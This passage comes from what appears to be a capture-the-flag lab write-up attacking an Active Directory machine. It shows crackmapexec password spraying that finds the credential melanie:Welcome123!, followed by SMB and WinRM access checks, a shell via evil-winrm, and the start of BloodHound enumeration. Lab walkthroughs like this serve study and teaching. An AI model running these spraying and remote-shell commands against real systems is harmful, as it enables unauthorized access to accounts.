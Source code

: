 ![](https://i.imgur.com/MFmgSg0.png)

With this information, I can move on to password spraying rather than AS-REP Roasting.

## Shell as melanie
### Password Spraying
Knowing from above sAMAccountName that **Marko Novak** has account name as **marko**, I tried authenticating with the found password but it didn't worked:


`crackmapexec smb 10.10.10.169 -u marko -p Welcome123!`

![](https://i.imgur.com/0dg0rt2.png)


Since it failed, I tried on password spraying:

`crackmapexec smb 10.10.10.169 -u sAMAccountNames.txt -p Welcome123!`
![](https://i.imgur.com/0HkLMGC.png)


After some time I found a valid match: **melanie:Welcome123!**
![](https://i.imgur.com/qrq3XcE.png)


### Checking Access

User melanie had access to **smb**:

`crackmapexec smb 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/6FxR3kC.png)



User melanie also had access to **winrm**:

`crackmapexec winrm 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/rpBKH2b.png)


### Evil-Winrm

Now I have my first shell as user **melanie**!:

`evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/XMXkCBy.png)



## Privesc melanie to ryan
### Bloodhound
Since I know this machine is running on Active Directory, I first decided to run **Bloodhound**.
